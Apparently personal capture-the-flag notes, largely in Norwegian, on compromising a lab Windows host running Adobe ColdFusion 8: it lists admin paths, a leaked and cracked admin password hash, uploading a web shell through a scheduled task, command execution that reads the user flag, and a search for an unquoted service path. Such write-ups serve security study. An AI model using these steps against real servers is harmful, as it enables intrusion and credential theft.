 ## arctic 10.10.10.11

Microsoft Windows 2008\|7\|Vista\|Phone\|8.1\|2012 \(91%\)

`135/tcp   open  msrpc`

`8500/tcp  open  fmtp`

`49154/tcp open  unknown`

Macromedia ColdFusion MX Server edition 6?

Adobe ColdFusion 8

får login med

`10.10.10.11:8500/CFIDE/administrator/enter.cfm?`

og passord prompt ved

`http://10.10.10.11:8500/CFIDE/wizards/common/_logintowizard.cfm`

[http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/](http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/)

avsløre en mappe. wooooooo

[http://10.10.10.11:8500/CFIDE/adminapi/base.cfc?wsdl](http://10.10.10.11:8500/CFIDE/adminapi/base.cfc?wsdl) for å vise versjon 8.0.1

\#Wed Mar 22 20:53:51 EET 2017 rdspassword=0IA/F\[\[E&gt;\[$\_6& \Q&gt;\[K\=XP \n password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 encrypted=true

javascript:alert\(hex\_hmac\_sha1\(document.loginform.salt.value,document.loginform.cfadminPassword.value\)\)

51681279BE771DE147003FBA6A6E4E557F833282

sha1 decrypt = **happyday**

debugging and logging. add scheduled task -&gt; upload cfm shell

[https://jumpespjump.blogspot.no/2014/03/attacking-adobe-coldfusion.html](https://jumpespjump.blogspot.no/2014/03/attacking-adobe-coldfusion.html)

[https://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers](https://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers)

[http://www.pwnag3.com/2013/04/coldfusion-for-pentesters-part-2.html](http://www.pwnag3.com/2013/04/coldfusion-for-pentesters-part-2.html)

[http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/index.html](http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/index.html)

bra cfm shell her [https://github.com/fuzzdb-project/fuzzdb](https://github.com/fuzzdb-project/fuzzdb)

`whoami > C:\ColdFusion8\wwwroot\out.txt`

**arctic/tolis**

kjøre kommandoer til jeg finner noe gøy

Microsoft Windows Server 2008 R2 Standard x64'

/c dir "c:\coldfusion8\wwwroot\CFIDE" &gt; c:\coldfusion8\wwwroot\out.txt

/c dir "c:\coldfusion8\lib\neo-datasource.xml" &gt; c:\coldfusion8\wwwroot\out.txt

passord wsagavF3noHWGA8xe7rd4w

/c dir C:\Users\Administrator &gt; c:\coldfusion8\wwwroot\out.txt - ingenting

/c dir "C:\Users\All Users\Desktop" &gt; c:\coldfusion8\wwwroot\out.txt

/c type "c:\users\tolis\Desktop\user.txt" &gt; c:\coldfusion8\wwwroot\out.txt

```
dir c:\ /s /b /o:gn - viser alle fier i subdirs
```

får ut **02650d3a69a70780c302e146a6cb96f3**

prøvd flere reverse shells uten hell

prøvd å laste opp netcat også, men no dice

jsp shell funker. men bare med netcat?

ssl error i metasploit

tasklist /v

fant en unquoted service path for coldfusion8

`wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """`

`ColdFusion 8 .NET Service                               ColdFusion 8 .NET Service        C:\ColdFusion8\jnbridge\CF8DotNetsvc.exe`

sc stop "ColdFusion 8 .NET Service"

funket ikke

whoami &gt; c:\coldfusion8\wwwroot\out.txt

